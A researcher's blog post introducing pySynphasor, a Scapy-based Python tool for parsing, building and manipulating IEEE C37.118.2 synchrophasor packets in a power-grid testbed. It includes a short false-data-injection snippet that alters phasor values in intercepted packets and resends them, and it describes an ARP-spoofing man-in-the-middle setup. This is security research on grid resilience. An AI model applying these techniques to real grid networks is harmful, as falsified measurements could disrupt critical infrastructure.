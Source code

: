 ```yaml
---
title: "pySynphasor: A Python Framework to Analyze, and Secure Synchrophasor Networks"
permalink: pySynphasor-python-based-pmu-packet-analyzer
date: 2025-06-02
excerpt: 
type: Blog
categories: 
tags: 
status:
---
```



Have you ever wanted to peek into the bytes flying between Phasor Measurement Units (PMUs) and Phasor Data Concentrator (PDC)
What if you could rebuild those packets, inject false data, and test the grid’s resilience against real cyberattacks?
Welcome to pySynphasor , a powerful, open-source Python tool that enables packet-level manipulation of IEEE C37.118.2 messages used in synchrophasor-based smart grids.

---

## What is pySynphasor?

`pySynphasor` is a Python module built on top of [Scapy](https://scapy.net/), tailored for:

- Parsing & building **IEEE C37.118.2** packets
- Injecting **False Data Injection Attacks (FDIA)**
- Running **MITM attacks** via ARP spoofing
- Creating **custom PDCs and µPMUs**

📦 Install it now:

```bash
pip install pySynphasor
```


Full docs + examples: [https://shuvangkardas.com/pySynphasor](https://shuvangkardas.com/pySynphasor)
GitHub Repository: https://github.com/shuvangkardas/pySynphasor

---

## 1. Build a C37.118.2 Command Packet in Python

Let’s start simple,  construct a basic command packet and inspect it.

### Code

```python
from pySynphasor.synphasor import *

cmdPkt = synphasor(type=4, idcode=10) / synphasor_cmd(cmd=5)
cmdPkt.show2()
print("Raw Bytes:", raw(cmdPkt))
```

### Output (Human-readable)

```
###[ IEEE C37.118.2 COMMON FRAME ]###
  synByte= 0xaa
  type= CMD
  version= Version 2
  framesize= 18
  idcode= 10

###[ synphasor command ]###
  cmd= 5
  chk= 0xb6b3
```

### Output (Machine/Raw)

```
Raw Bytes: b'\xaaB\x00\x12\x00\n\x00\x00\x00\x00\x00\x00\x00\x00\x00\x05\xb6\xb3'
```

ust two lines to build a fully valid C37.118 command frame!

---
## 🔍 2. Dissect Real Packets from a Testbed

Captured a packet between a PMU and a PDC? `pySynphasor` will convert it into human-friendly structure.

```python
packet = sniff(count=1)[0]  # Get a packet
packet.show()
```

Output shows layers like:
- Ethernet
- IP/TCP
- IEEE C37.118.2 Common Frame
- Phasor Data (complex numbers)
---

## 3. Inject a False Data Attack (FDIA)

Imagine intercepting a synchrophasor packet and injecting **fake phasor measurements**. Here’s how we did that in our testbed:

### Code

```python
synPkt = packet['synphasor_data']
synPkt.pmu_data[0].phasors[0] = complex(30, 20)
synPkt.pmu_data[0].phasors[1] = complex(70, 80)

del packet[IP].chksum, packet[TCP].chksum
send(packet)
```

### Visual: Before vs After FDIA

|Measurement|Before Attack|After Attack|
|---|---|---|
|Phasor 1|(2453 + 2444j)|(30 + 20j)|
|Phasor 2|(2954 + 2780j)|(70 + 80j)|
|Phasor 3|(2922 + 2079j)|(unchanged in this demo)|

---

## 4. Man-in-the-Middle (MITM) Attack Setup

We deployed 3 VMs: µPMU, pyPDC, and attacker. Using ARP spoofing, we rerouted traffic via the attacker.

### ARP Poisoning Snapshot

|Device|IP|Original MAC|Spoofed MAC|
|---|---|---|---|
|PMU|10.0.2.4|08:00:27:c9:f7:61|08:00:27:a7:1b:c3|
|PDC|10.0.2.7|08:00:27:69:58:64|08:00:27:a7:1b:c3|

---

## pySynphasor vs Other Tools

| Feature                        | pyPMU | pySynphasor ✅ |
| ------------------------------ | ----- | ------------- |
| Build C37.118.2 Packets        | ✅     | ✅             |
| Dissect Captured Packets       | ❌     | ✅             |
| Perform FDIA/MITM              | ❌     | ✅             |
| Includes pyPDC (multi-PMU)     | ❌     | ✅             |
| Scapy-powered for full control | ❌     | ✅             |

---

## 📈 Future Work

We're expanding pySynphasor to:
- Support **IEC 61850-90-5** protocol
- Add **fuzz testing** capabilities
- Build a **GUI dashboard** for researchers


---

## Conclusion

**pySynphasor** is more than a packet tool — it's a testbed enabler, a vulnerability scanner, and a research catalyst for cyber-physical power systems.

🔗 GitHub: [github.com/shuvangkardas/pySynphasor](https://github.com/shuvangkardas/pySynphasor)  
📘 Paper: [Scalable cyber‐physical testbed for cybersecurity evaluation of synchrophasors in power systems](https://ietresearch.onlinelibrary.wiley.com/doi/pdf/10.1049/cps2.12106)
🌐 Docs: [shuvangkardas.com/pySynphasor](https://shuvangkardas.com/pySynphasor)

👉 If this helped you or sparked ideas, don’t forget to ⭐ the repo and share!


## How to cite the paper
1. S. C. Das, T. Vu, H. Ginn, and K. Schoder, "Implementation of IEEE C37. 118 Packet Manipulation Tool, pySynphasor for Power System Security Evaluation," in 2023 IEEE Electric Ship Technologies Symposium (ESTS), 2023, pp. 542-548.
2. S. C. Das and T. Vu, “Scalable Cyber-Physical Testbed for Cybersecurity Evaluation of Synchrophasors in Power Systems,” _arXiv preprint arXiv:2207.12610_, 2022.

## How to contribute
- Please check TODO.md to find out where you can help us.
- Fork this repo.
- Create new branch: git checkout -b fixing-stupid-bug
- Commit changes: git commit -m 'There you go! Fixed the  stupid bug.'
- Push changes to the branch: git push origin fixing-your-stupid-bug
- Submit pull request.

---


---

**Real stories. Practical lessons. Right in your inbox.**  
No spam—just once a week.  
{% include newsletter.html %}

---
### 👋 About Me
Hi, I’m **Shuvangkar Das** — a power systems researcher with a Ph.D. in Electrical Engineering, currently working as a Research Scientist. I work at the intersection of power electronics, inverter-based DERs (IBRs), and AI to help build smarter, greener, and more stable electric grids. 

My work spans large-scale EMT simulations, firmware development, reinforcement learning, and hardware prototyping. Beyond engineering, I’m also a [YouTuber](https://www.youtube.com/@ShuvangkarDas) and content creator — sharing hands-on insights on productivity, research, and knowledge management. My goal is simple: to make complex ideas more accessible and actionable for everyone.

<p><strong>Connect with me:<br></strong>
<a href="https://www.youtube.com/@ShuvangkarDas" target="_blank">
    <img src="https://img.shields.io/badge/YouTube-Subscribe-red?style=for-the-badge&logo=youtube">
  </a>
  <a href="https://www.linkedin.com/in/ShuvangkarDas" target="_blank">
    <img src="https://img.shields.io/badge/LinkedIn-Connect-blue?style=for-the-badge&logo=linkedin">
  </a>
  <a href="https://newsletter.shuvangkardas.com" target="_blank">
    <img src="https://img.shields.io/badge/Newsletter-Subscribe-blue?style=for-the-badge">
  </a>
  <a href="https://twitter.com/shuvangkar_das" target="_blank">
    <img src="https://img.shields.io/badge/Twitter-Follow-blue?style=for-the-badge&logo=twitter">
  </a>
  
  <a href="https://github.com/shuvangkardas" target="_blank">
    <img src="https://img.shields.io/badge/GitHub-Follow-black?style=for-the-badge&logo=github">
  </a>
  <a href="https://blog.shuvangkardas.com" target="_blank">
    <img src="https://img.shields.io/badge/Blog-Read-blueviolet?style=for-the-badge">
  </a>
  
</p>



